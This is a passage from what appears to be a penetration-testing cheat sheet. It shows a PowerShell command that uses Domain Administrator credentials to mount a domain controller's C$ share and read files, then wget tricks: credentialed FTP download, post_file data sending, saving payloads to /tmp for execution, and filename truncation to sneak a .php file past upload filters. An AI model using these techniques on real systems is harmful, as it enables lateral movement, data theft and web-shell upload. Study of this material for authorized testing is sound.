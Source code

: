 - Invoking Net Use using Credentials to mount remote system

  The below example executes command on file.bitvijays.local computer with Domain Administrator credentials and utilizes net use to mount Domain Controller C Drive and read a particular file

  ```none
  Invoke-Command -ComputerName file.bitvijays.local -Credential $credential -ScriptBlock {net use x: \\dc.bitvijays.local\C$ /user:bitvijays.local\domainadministrator_user DA_Passw0rd!; type x:\users\administrator\desktop\imp.txt}
  ```

### Wget

#### FTP via Wget

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

```none
wget -rq ftp://IP --ftp-user=username --ftp-password=password
```

#### wgetrc Commands

```none
output_document = file -- Set the output filename—the same as ‘-O file’.
post_data = string -- Use POST as the method for all HTTP requests and send string in the request body. The same as ‘--post-data=string’.
post_file = file   -- Use POST as the method for all HTTP requests and send the contents of file in the request body. The same as ‘--post-file=file’.
-P prefix
--directory-prefix=prefix
Set directory prefix to prefix.  The directory prefix is the directory where all other files and subdirectories will be saved to, i.e. the top of the retrieval tree.  The default is . (the current directory).
```

#### Tricks

- The interesting part with -P Parameter is you can save the file in /tmp if your current directory is /. Let me explain, Let's say, your current directory is /home/user/ if we do

  ```none
  wget IPAddress -P tmp
  ```

  it would create a tmp folder in the /home/user/ and save the file in that. However, if you current directory is /, it would save the file in /tmp folder, from where you can execute stuff.

- wget accepts IP address in decimal format

- wget shortens the filename if it's too long. For example, if you provide a filename to the wget which is very long (i.e around 255 character), wget might shorten it. This might be helpful in cases where only a jpg file is allowed to be uploaded, however as wget shortens it, we may try aaaaaaaaaaaa (*255/ somenumber).php.jpg and wget shortens it to aaaaaaa(*255).php

### SSH
